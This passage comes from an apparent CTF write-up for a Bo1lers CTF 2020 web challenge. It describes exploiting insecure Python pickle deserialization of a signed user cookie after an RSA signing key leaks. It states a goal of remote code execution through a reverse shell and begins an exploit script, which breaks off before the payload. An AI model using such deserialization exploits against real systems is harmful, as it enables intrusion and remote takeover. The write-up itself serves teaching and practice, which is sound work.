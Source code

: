 ![bo1lers_ctf](/assets/img/Bo1lersCTF_2020/web_8.jpeg)
Voilà, we have leaked the RSA keypair used for the *user* cookie signature.
Let's see what happens if we provide a malformed user cookie (just add some junk chars to user's cookie).
```python
def flag():

    # ...
    # ...
    assert signature == checkme
 
    user = pickle.loads(binascii.unhexlify(request.cookies.get("user")))
 
    if user.is_admin():
    ​with open('flag.txt', 'r') as f
    # ...

```
The old good boy python pickle module. It is well known that this module is vulnerable to Insecure Deserialization if it tries to deserialize user-provided data.
<br>[Using Python’s pickling to explain Insecure Deserialization.](https://medium.com/@shibinbshaji007/using-pythons-pickling-to-explain-insecure-deserialization-5837d2328466#:~:text=Insecure%20deserialization%20is%20when%20an,side(client.py).)

In our case, if the signature step passes, the application tries to deserialize the provided user cookie; that's our injection point.
At this point we know our goal:
1. Craft a custom pickle user object that when deserialized gives us RCE (preferably a reverse shell)
2. Sign our payload with the signing RSA algorithm
3. Wait for the reverse shell to connect to our machine and grab the flag

```python
import pickle
import binascii
from Crypto.Hash import SHA384
from Crypto.PublicKey import RSA
from Crypto.Signature import PKCS1_v1_5
import requests

# Required User class
class User:

    def __init__(self):
        print()

    def __reduce__(self):
```